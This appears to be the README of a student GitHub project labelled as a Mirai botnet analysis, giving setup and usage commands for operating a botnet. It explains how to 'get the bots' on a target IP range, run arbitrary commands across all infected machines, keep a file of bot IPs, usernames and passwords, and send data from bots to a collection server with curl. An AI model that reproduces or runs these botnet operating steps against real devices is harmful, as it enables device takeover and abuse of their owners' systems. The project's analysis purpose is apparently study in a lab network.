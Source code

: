 # MiraiBotNet

## prerequisites

 - mongoDB 
 - pip

```bash
# chmod +x init.sh
# ./init.sh
# cd botnet/
# pip install -r requirement.txt  
```
## Usage 

### To get the bots
```bash
# cd botnet/
# ./run.sh <ip> 
  eg:- # ./run.sh 192.168.31.X 
```

### To run the command accross all the bots
```bash
# cd botnet/
# ./command.sh <cmd> 
  eg:- # ./command.sh "ls;ping www.google.com"
```

## Information
### userPassIPFile.txt file contains the IP,Username,Password of the bots. 
 
### to get data from bots
```
curl --header "Content-Type: application/json" --request POST --data '{"ip":"192.168.31.254","data":"this is data entered bla"}' http://192.168.31.32:5000/receiveData
```


PW20RJS01 - Mirai Botnet Analysis
